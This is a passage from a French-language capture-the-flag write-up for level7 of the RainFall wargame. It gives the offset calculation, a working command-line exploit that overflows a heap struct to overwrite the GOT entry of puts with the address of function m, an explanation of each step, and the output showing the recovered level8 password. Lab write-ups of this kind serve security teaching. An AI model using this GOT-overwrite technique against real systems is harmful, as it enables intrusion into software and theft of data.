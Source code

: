    - Calcul de l'offset: 0x804a02c - 0x804a018 = 0x14 (20 en décimal)

4. Créer et exécuter l'exploit:
   ```bash
   ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
   ```

Cette commande:

1. Écrase `second_struct[1]` avec l'adresse de l'entrée GOT de `puts` (`0x8049928`) en utilisant le premier argument
2. Écrit l'adresse de la fonction `m` (`0x080484f4`) dans l'entrée GOT en utilisant le second argument
3. Quand le programme appelle `puts("~~")`, il exécute en réalité `m()`
4. La fonction `m()` affiche le contenu du buffer `c` qui contient le mot de passe

## Récupération du Mot de Passe

```bash
level7@RainFall:~$ ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1745411231
```

Le mot de passe pour le level8 est: `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`
